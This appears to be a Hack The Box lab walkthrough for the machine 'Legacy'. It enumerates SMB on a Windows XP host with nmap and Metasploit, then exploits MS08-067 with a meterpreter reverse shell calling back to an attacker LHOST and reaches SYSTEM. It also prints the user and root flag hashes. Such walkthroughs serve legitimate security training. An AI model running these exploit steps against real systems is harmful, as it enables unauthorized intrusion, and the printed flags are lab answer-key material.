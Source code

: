 # Legacy

## 1. Overview

### 1.1. Attacks

* SMB

### 1.2. Tools used

**Enumeration** &rarr; `nmap`.

**Exploitation** &rarr; `msf`.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap
Search with `nmap`:

```bash
nmap -p -T4 -A 10.10.10.4
```

##### 2.1.1.1. Ports
![Legacy nmap ports](_v_images/20201003194612787_27957.png)

* **Port: 139 (netbios-ssn)** &rarr; Linux Samba
* **Port: 445 (microsoft-ds)** &rarr; Windows SMB

Both are SMB related (file shares).

##### 2.1.1.2. Host Details

![Legacy Host Details](_v_images/20201003195550666_18455.png)
![Legacy Host Script Results](_v_images/20201003195833909_14253.png)

* **OS** &rarr; Windows XP
* **Computer name** &rarr; LEGACY
* **SMB-Security-Mode**
    * **Message_Signing** &rarr; disabled


#### 2.1.2. Metasploit

```msf
msf5 > use auxiliary/scanner/smb/smb_version
msf5 auxiliary(scanner/smb/smb_version) > set rhosts 10.10.10.4
rhosts => 10.10.10.4
msf5 auxiliary(scanner/smb/smb_version) > run

[+] 10.10.10.4:445        - Host is running Windows XP SP3 (language:English) (name:LEGACY) (workgroup:HTB ) (signatures:optional)
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

* **OS** &rarr; Windows XP SP3

### 2.2. Exploitation

#### 2.2.1. Sources

**Google:** `smb windows xp sp3 exploit`

[[Rapid7] MS08-067 Microsoft Server Service Relative Path Stack Corruption ](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)

#### 2.2.2. Metasploit

```msf
msf5 > use exploit/windows/smb/ms08_067_netapi
[*] Using configured payload windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.10.10.4
rhosts => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf5 exploit(windows/smb/ms08_067_netapi) > run
```

```sh
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell

C:\WINDOWS\system32>cd "c:\documents and settings\john\desktop"
cd "c:\documents and settings\john\desktop"

C:\Documents and Settings\john\Desktop>type user.txt
type user.txt
e69af0e4f443de7e36876fda4ec7644f
C:\Documents and Settings\john\Desktop>cd "c:\documents and settings\administrator\desktop"

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993442d258b0e0ec917cae9e695d5713
```

* **Own User** &rarr; `e69af0e4f443de7e36876fda4ec7644f`
* **Own Root** &rarr; `993442d258b0e0ec917cae9e695d5713`